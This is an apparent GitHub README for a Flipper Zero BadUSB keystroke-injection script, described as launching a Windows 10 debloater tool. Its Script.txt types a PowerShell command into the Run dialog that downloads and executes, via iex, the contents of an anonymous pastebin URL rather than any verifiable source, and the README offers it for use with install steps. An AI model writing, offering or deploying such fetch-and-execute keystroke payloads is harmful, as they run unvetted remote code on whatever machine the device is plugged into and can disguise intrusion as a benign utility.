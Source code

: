 # Windows 10 Debloater GUI Port for Flipper Zero Bad Keyboard

![Debloater GUI Logo](https://raw.githubusercontent.com/levimac-03/flipper-zero-win10debloater-port/main/Debloater%20GUI.png)

This repository contains a script designed for the Flipper Zero Bad Keyboard that executes the Windows 10 Debloater GUI, originally developed by Richard Newton (Sycnex). 

## Overview

The script automates the execution of a PowerShell command that downloads and runs the Windows 10 Debloater GUI from a specified URL. This tool helps users remove unwanted bloatware and optimize their Windows 10 systems.

### Script.txt

```plaintext
REM Credit: @Levi-M-2024 @Sycnex-2021

DELAY 500
GUI r
DELAY 500
STRING powershell -Command "iex (Invoke-WebRequest -Uri 'https://pastebin.com/raw/854vZ336' -UseBasicP).Content"
ENTER
```

## Installation

**Copy the Script**: Place the script file into the "Bad Keyboard" folder on your Flipper Zero SD card. Ensure your device is running Xtreme firmware.

**Restart Your Flipper Zero**: After copying the file, restart your Flipper Zero to activate the script.

## Usage

Once installed, the script can be executed via the Flipper Zero Bad Keyboard interface. It will automatically open a PowerShell window and run the Debloater GUI.

## Acknowledgements

- Richard Newton (Sycnex) for the original Windows 10 Debloater GUI.
- Levi-M-2024 for porting the script to Flipper Zero.
- The Flipper Zero community for their ongoing support and contributions.

